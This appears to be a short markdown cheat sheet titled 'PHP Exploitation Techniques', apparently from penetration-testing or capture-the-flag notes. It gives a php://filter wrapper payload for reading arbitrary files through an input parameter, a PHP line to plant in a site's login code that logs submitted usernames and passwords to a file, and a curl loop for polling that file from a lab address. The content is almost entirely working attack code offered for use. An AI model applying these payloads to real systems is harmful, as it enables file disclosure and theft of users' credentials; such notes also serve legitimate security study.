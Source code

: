 ```yaml
---
icon: php
---
```


# PHP Exploitation Techniques

{% hint style="info" %}
### <mark style="color:red;">`Filters & Wrappers`</mark>

{% code title="Exfiltrate files" overflow="wrap" %}
```php
?input_file=php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>
```
{% endcode %}
{% endhint %}

***

{% hint style="info" %}
### <mark style="color:red;">`Harvesting Credentials`</mark>

* <mark style="color:purple;">If is possible to write on login files, add this line:</mark>

{% code overflow="wrap" %}
```php
file_put_contents("/var/www/html/dev_wiki/hijack.txt", $_POST['log'] . " : " . $_POST['pwd'], FILE_APPEND);
```
{% endcode %}

* <mark style="color:purple;">Adapt the directory to your needs, if you need to catch the file asap use this</mark> <mark style="color:orange;">**`curl`**</mark> <mark style="color:purple;">command:</mark>

```sh
watch -n 1 curl -s -X GET http://10.10.10.78/dev_wiki/hijack.txt
```
{% endhint %}

